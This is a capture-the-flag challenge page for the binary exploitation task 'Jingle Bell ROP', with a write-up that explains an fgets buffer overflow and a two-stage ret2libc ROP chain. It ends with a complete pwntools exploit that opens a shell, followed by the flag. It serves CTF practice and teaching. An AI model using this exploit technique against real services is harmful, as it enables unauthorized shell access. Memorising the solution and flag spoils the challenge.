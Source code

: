 # Jingle Bell ROP

- Published: 12/16/2024 (#16/25 in event)
- Category: Binary exploitation
- Points: 105
- Author: Vip3r

Angry Elf Glaki is at it again! He’s been hiding our toy designs deep in his server. We know there’s a single service
running and we managed to find the binary it’s running —can you pwn it and recover those locked-up designs?

`nc ctf.csd.lol 2020`

## Attachments

- [main](https://files.vipin.xyz/api/public/dl/GXzqAgQO/advent-of-ctf-csd/jingle-bell-rop/main)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/pRiLdOSB/advent-of-ctf-csd/jingle-bell-rop/libc.so.6)

## Hints

**Hint 1:**

The `fgets()` function reads more bytes than the buffer can hold. This overflow allows you to control the return address
and execute ROP.

**Hint 2:**

Use the leaked address of `puts()` to calculate the libc base and craft a ROP chain to call `system("/bin/sh")` for
shell access.

## Write-up

<details>
<summary>Reveal write-up</summary>

First we do a checksec on the binary to check its protections:

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Since the binary has no canary we do not need a canary leak to write a ROP chain. Furthermore, since it has no PIE
(Position Independent Executable), the program is loaded at a constant offset every time we run it.

The program is rather small, and the Ghidra pseudocode is as follows (I have renamed some variables for simplicity):

```c
undefined8 main(void)
{
  FUN_004010a0(stdin,0,2,0);
  FUN_004010a0(stdout,0,2,0);
  puts("Welcome to Glaki\'s Evil Vault of Secrets!");
  puts("Only fellow evil elves may access the stolen schematics.");
  vuln();
  puts("Access denied! Goodbye!");
  return 0;
}
void vuln(void)
{
  char local_48 [64];

  printf("Glaki says: Enter the secret code to unlock the vault: ");
  fgets(local_48,0x80,stdin);
  printf("You entered: %s",local_48);
  return;
}
```

The main vulnerability here is that fgetsallows us to enter `0x80` (which is 128 in decimal) bytes into `local_48` when
it should only contain 64 characters. So we have a 64-byte overflow into the buffer, which is more than enough to write
a ROP chain.

However, the exploitation is not so straightforward since there is no win function in the binary. Which means that we
have to ret2libc in order to get a shell. We have to write 64 bytes to fill up the `local_64` buffer, followed by
another 8 bytes to fill saved RBP, then we can inject our ROP chain.

In order for us to do a ret2libc, we first need to figure out where libc is located. This is because the address of libc
is randomised with each run of the program. One way to get a libc leak is by viewing resolved GOT (Global Offset Table)
entries. These are places in the binary wherein the libc addresses of libc functions are stored. The GOT entries are
only resolved once the function has been called. I decided to leak the libc address of the putsfunction. We can find the
location of the GOT entry in the binary by debugging it in pwndbg, then using the got command.

For example in the snippet below, the GOT entry is located at address 0x404000in the binary and is resolved to the libc
address `0x7ffff7dfee50` (which is our libc leak).

![](./image1.png)

So how do we write the ROP chain to get the libc leak? Well, we can make use of code which the program already provides!
Look at the following snippet at the end of the main function:

![](./image2.png)

So if we jump to `0x401264` with RDI set to `0x404000`, we can effectively do puts(GOT entry of puts) which would give
us our libc leak. So our ROP chain would be something like

```txt
p64(POP_RDI) + p64(puts_got) + p64(0x401269) + p64(0)
```

Note that there is a `p64(0)` at the end because of the additional `pop rbp` instruction in main.

But what do we do after that?

In order to exploit the vulnerability after getting our libc leak, we can append to the ROP chain and force it to call
the vuln function again. This allows us to have a second chance at exploiting the buffer overflow. In other words our
first ROP chain would look something like this:

```txt
p64(POP_RDI) + p64(puts_got) + p64(0x401269) + p64(0) + p64(VULN)
```

However, using this ROP chain would cause our program to crash. The reason is because vuln starts with an `endbr64`
instruction, which would crash if our `rsp` value is not 16-bit aligned. As such, we need to add a RET instruction
before VULN in our ROP chain

![](./image3.png)

So our finalised first ROP chain would be

```txt
p64(POP_RDI) + p64(PUTS_GOT) + p64(0x401269) + p64(0) + p64(RET) + p64(VULN)
```

After we run this ROP chain, we get the libc address of puts. We can use this to calculate the address of libc since the
offset between libc's address and the address of puts in that same libc file is always the same. From one run of the
program, my libc was at `0x7f5dd6f88000` while my puts was at `0x7f5dd700fbd0`. So I can just calculate the libc address
as such:

```py
addr = u64(p.recv(6) + b"\x00\x00") # this is the libc puts leak
libc.address = addr - (0x00007f5dd700fbd0 - 0x7f5dd6f88000)
```

Once we've gotten the leak and back to the vuln function for the second time, we can finally call system('/bin/sh')
using the system function in libc and the '/bin/sh' function in libc. pwntools makes forming such an ROP chain trivial:

```py
rop = ROP(libc)
binsh = next(libc.search("/bin/sh"))
rop.rdi = binsh
rop.rsi = 0
rop.raw(libc.sym['execve'])
# pause()
p.sendlineafter(b"vault: ", 0x48 * b'a' + rop.chain())
```

In summary, we:

Made a first ROP chain to do `puts(puts_got)` to get a libc leak and re-enter vuln

Made a second ROP chain to call `system('/bin/sh')`

My full exploit is given below:

```py
from pwn import *
# fill in binary name
elf = context.binary = ELF("./main")
# fill in libc name
ld = ELF("./ld-2.39.so")
libc = ELF("./libc.so.6")
context.log_level = 'debug'
if args.REMOTE:
  # fill in remote address
  p = remote("ctf.csd.lol", 2020)
else:
  p = process([ld.path, elf.path], env = {"LD_PRELOAD": libc.path})
  # p = elf.process()

PUTS_GOT = 0x404000
POP_RDI = 0x0000000000401196
TARGET1 = 0x401264
RET = 0x4011ed
VULN = 0x401198
# pause()
pl1 = 0x48 * b'a' + p64(POP_RDI) + p64(PUTS_GOT) + p64(TARGET1) + p64(0) + p64(RET) + p64(VULN)
p.sendlineafter(b"vault: ", pl1)
p.recvuntil(0x48 * b"a" + b"\x96\x11\x40")
addr = u64(p.recv(6) + b"\x00\x00")
libc.address = addr - (0x00007f5dd700fbd0 - 0x7f5dd6f88000)
log.info(f"libc base: {hex(libc.address)}")
rop = ROP(libc)
binsh = next(libc.search("/bin/sh"))
rop.rdi = binsh
rop.rsi = 0
rop.raw(libc.sym['execve'])
# pause()
p.sendlineafter(b"vault: ", 0x48 * b'a' + rop.chain())
p.interactive()
```

Flag: `csd{J1Ngl3_b3ll_r0CK_15_b357_XM45_50NG}`

</details>

Write-up by elijah5399
